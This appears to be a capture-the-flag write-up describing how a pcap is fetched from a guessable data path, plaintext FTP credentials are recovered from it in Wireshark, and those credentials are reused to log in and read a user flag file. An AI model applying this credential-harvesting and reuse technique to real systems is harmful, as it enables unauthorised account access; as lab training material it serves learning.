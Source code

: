 We can see that the ones with all **00's** have the biggest size, lets check them ! To access the .pcap we need to access the **../data/00000000** path and download it <br>

Within the .pcap we can see several protocols being used, but one is particularly interesting: **FTP** <br>

If we use **wireshark's follow tcp stream** feature, we can see the whole ftp communication
```sql
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
``` 

And we got some creds here! ```nathan:Buck3tH4TF0RM3!```, lets check the ftp server <br>

The FTP server is mapped, as it seems, to the user's home folder... Spicy :D
```bash
ftp-cmd > ls -la

drwxr-xr-x    5 1001     1001         4096 Jun 16 10:11 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
 -rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
drwx------    4 1001     1001         4096 Jun 16 10:11 .gnupg
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
drwxr-xr-x    3 1001     1001         4096 Jun 16 10:10 snap
-r--------    1 1001     1001           33 Jun 16 10:06 user.txt

ftp-cmd > get user.txt
# FLAG: fabfa5b2c0439e4b1a6f34f144f22248
```
